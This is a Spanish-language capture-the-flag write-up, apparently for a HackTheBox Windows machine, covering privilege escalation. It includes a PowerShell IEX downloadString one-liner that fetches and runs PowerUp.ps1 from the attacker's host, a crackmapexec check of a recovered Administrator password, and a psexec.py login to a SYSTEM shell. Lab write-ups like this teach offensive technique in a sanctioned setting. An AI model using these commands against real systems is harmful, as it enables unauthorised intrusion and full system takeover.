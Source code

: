 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

```bash
git clone https://github.com/PowerShellMafia/PowerSploit
cd PowerSploit
cd Privesc
vi PowerUp.ps1
```

Aqui vamos a hacer lo mismo que con el fichero `PS.ps1`. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el **Invoke** al final del fichero `PowerUp.ps1`

```bash
Invoke-AllChecks
```

1. Creamos un servicio web con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')
    ```

Este script nos reporta un monton de cosas y aqui podemos ver

- SEImpersonatePrivilege
- Service UsoSvc
- encotro la contraseña para el usuario Administrator en un fichero Groups.xml

### Validamos las credenciales del usuario Administrator {-}

```bash
crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```

Ya vemos un **[+]** y un **(Pwn3d)**. Quiere decir que podemos connectarnos al systema con `psexec`

### Conneccion con psexec.py {-}

```bash
psexec.py WORKGROUP/Administrator@10.10.10.125 cmd.exe

whoami
#Output
nt authority\system
```

Ya estamos como root y podemos ver la flag ;)

> [!] NOTA: S4vitar nos enseña mas technicas para connectarnos en el video. Os invito a verlas a partir del minuto 1:24:20